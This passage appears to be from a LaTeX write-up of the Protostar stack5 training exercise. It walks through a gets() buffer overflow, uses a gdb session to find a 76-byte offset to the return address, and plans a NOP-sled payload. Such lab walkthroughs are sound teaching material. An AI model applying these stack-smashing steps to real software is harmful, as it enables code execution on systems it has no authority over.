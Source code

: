 We have a 64-byte buffer, and call \texttt{gets} on it, presenting
us with a buffer overflow vulnerability. First, we'll determine
the number of bytes we'll need to overflow into the return address.
This can be done with trial and error, sending buffers of over 64 bytes
and determining how many bytes you can send before a segfault would happen.
Instead, since the program is simple we'll just debug it and find out.

\begin{lstlisting}
user@protostar:~/stack/5$ gdb -q /opt/protostar/bin/stack5
Reading symbols from /opt/protostar/bin/stack5...done.
(gdb) disas main
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   %ebp
0x080483c5 <main+1>:    mov    %esp,%ebp
0x080483c7 <main+3>:    and    $0xfffffff0,%esp
0x080483ca <main+6>:    sub    $0x50,%esp
0x080483cd <main+9>:    lea    0x10(%esp),%eax
0x080483d1 <main+13>:   mov    %eax,(%esp)
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave  
0x080483da <main+22>:   ret    
End of assembler dump.
(gdb) b *(main)
Breakpoint 1 at 0x80483c4: file stack5/stack5.c, line 7.
(gdb) r
Starting program: /opt/protostar/bin/stack5 

Breakpoint 1, main (argc=1, argv=0xbffff874) at stack5/stack5.c:7
7       stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
(gdb) i r esp
esp            0xbffff7cc       0xbffff7cc
(gdb) b *(main+16)
Breakpoint 2 at 0x80483d4: file stack5/stack5.c, line 10.
(gdb) c
Continuing.

Breakpoint 2, 0x080483d4 in main (argc=1, argv=0xbffff874) at stack5/stack5.c:10
10      in stack5/stack5.c
(gdb) i r eax
eax            0xbffff780       -1073744000
\end{lstlisting}

Here, we place a breakpoint at the beginning of the function,
so we can easily get the address the return pointer is located 
at, since it will be where the \texttt{esp} register is pointing.
Next, we breakpoint just before the call to \texttt{gets}, so 
we can find the address of our buffer in the \texttt{eax} register.
Taking a simple difference, we see that we should use 76 bytes to get
from the beginning of the buffer to the return address. Now, we
do have to be careful. Because of the \texttt{and} instruction,
it's possible that this difference can change by as much as 16 bytes, 
depending on differences in execution prior to entry to main. For example,
different arguments can possibly change this difference. However,
16 bytes isn't a large differenence, so we will simply brute-force this.
Also, we'll make use of python on the command line, and build our
buffer with a sequence of NOP instructions in the beginning, simply
so that we won't have to update the address we jump to each time
we change the buffer size.

